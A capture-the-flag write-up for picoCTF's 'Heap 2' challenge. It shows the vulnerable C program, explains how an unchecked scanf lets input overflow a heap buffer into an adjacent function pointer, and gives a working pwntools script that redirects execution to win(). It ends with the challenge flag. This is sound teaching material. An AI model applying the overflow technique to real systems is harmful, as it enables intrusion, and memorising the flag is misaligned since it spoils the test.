


# Pico CTF Binary Exploitation Write Up - Heap 2

Source code:

``` C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAGSIZE_MAX 64

int num_allocs;
char *x;
char *input_data;

void win() {
    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);
}

void check_win() { ((void (*)())*(int*)x)(); }

void print_menu() {
    printf("\n1. Print Heap\n2. Write to buffer\n3. Print x\n4. Print Flag\n5. "
           "Exit\n\nEnter your choice: ");
    fflush(stdout);
}

void init() {

    printf("\nI have a function, I sometimes like to call it, maybe you should change it\n");
    fflush(stdout);

    input_data = malloc(5);
    strncpy(input_data, "pico", 5);
    x = malloc(5);
    strncpy(x, "bico", 5);
}

void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}

void print_heap() {
    printf("[*]   Address   ->   Value   \n");
    printf("+-------------+-----------+\n");
    printf("[*]   %p  ->   %s\n", input_data, input_data);
    printf("+-------------+-----------+\n");
    printf("[*]   %p  ->   %s\n", x, x);
    fflush(stdout);
}

int main(void) {

    // Setup
    init();

    int choice;

    while (1) {
        print_menu();
	if (scanf("%d", &choice) != 1) exit(0);

        switch (choice) {
        case 1:
            // print heap
            print_heap();
            break;
        case 2:
            write_buffer();
            break;
        case 3:
            // print x
            printf("\n\nx = %s\n\n", x);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```

From what we can see of the source code, we can interpret a major buffer overflow at

``` C
void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}

```

A crucial part in our exploitation in the function scanf that will allow us to perform a buffer overflow on the heap as in the function init:

``` C
void init() {

    printf("\nI have a function, I sometimes like to call it, maybe you should change it\n");
    fflush(stdout);

    input_data = malloc(5);
    strncpy(input_data, "pico", 5);
    x = malloc(5);
    strncpy(x, "bico", 5);
}
```

input_data is malloced 5 bytes, and as we know malloc allocates memory in the heap, which we can take advantage of to change the function pointer at check_win where x is our target for placing our address into

``` C
void init() {

    printf("\nI have a function, I sometimes like to call it, maybe you should change it\n");
    fflush(stdout);

    input_data = malloc(5);
    strncpy(input_data, "pico", 5);
    x = malloc(5);
    strncpy(x, "bico", 5);
}

```

First we need to check for the address of the function win(), through gdb:


Then we see how many A's we can fit into this buffer until it overflows into variable x:

- Using python3:

    ``` python
    print('A'*32)
    ```

- Input in:
  

As we can see 32 A's is a perfect fit for the variable input_data, as such the next bytes can be the address for the win() function, though as the address is inputted under string, we will need to shellcode the input into the program instead of directly inputting it.

- First we need to extract the string into little-endian:
  
``` pseudo
\xa0\x11\x40
```

- Then we need to write a program to input the data:

Here we use the pwn library to access the process function

``` python
from pwn import *

nc_addr = "./challenge"
print(nc_addr.split(' '))
netcat = nc_addr.split(' ')
p = process(netcat)

print(p.recv())

padding = b'A'*32

ret_address = b'\xa0\x11\x40'

p.sendline(b'2')

print(p.recv())

p.sendline(padding + ret_address)

print(p.recv())

p.sendline(b'4')

print(p.recv())
```

Then we have our flag: picoCTF{and_down_the_road_we_go_856288fc}
